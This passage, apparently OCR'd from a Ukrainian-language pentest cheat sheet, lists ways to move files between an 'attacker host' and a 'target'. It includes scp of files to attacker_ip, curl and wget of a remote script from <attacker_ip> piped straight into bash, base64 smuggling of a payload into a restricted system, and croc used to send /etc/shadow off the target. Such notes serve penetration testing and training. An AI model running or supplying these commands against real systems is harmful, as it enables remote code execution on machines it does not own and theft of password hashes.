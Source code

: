 ### 🔸 З таргета на VPS (атакуючий хост):
```bash
scp /path/file.txt user@attacker_ip:/tmp/file.txt
```

### 🔸 З VPS на таргет:
```bash
scp /tmp/file.txt user@target_ip:/path/file.txt
```

---

## 🧪 6. Виконання скрипта без збереження

```bash
curl http://<attacker_ip>/script.sh | bash
```

або через `wget`:
```bash
wget -qO- http://<attacker_ip>/script.sh | bash
```

---

## 🧬 7. Передача через base64 (у сильно обмеженому середовищі)

**На своїй машині:**
```bash
base64 -w0 payload.sh > payload.b64
```

**На таргеті (вручну):**
```bash
echo "base64_encoded_data_here" > file.txt
base64 -d file.txt > result.sh
chmod +x result.sh
```

---

## 🚀 8. Використання `croc`

### 🔸 Встановлення:
```bash
curl https://getcroc.schollz.com | bash
```

### 🔸 Передача:
```bash
croc send /etc/shadow
```
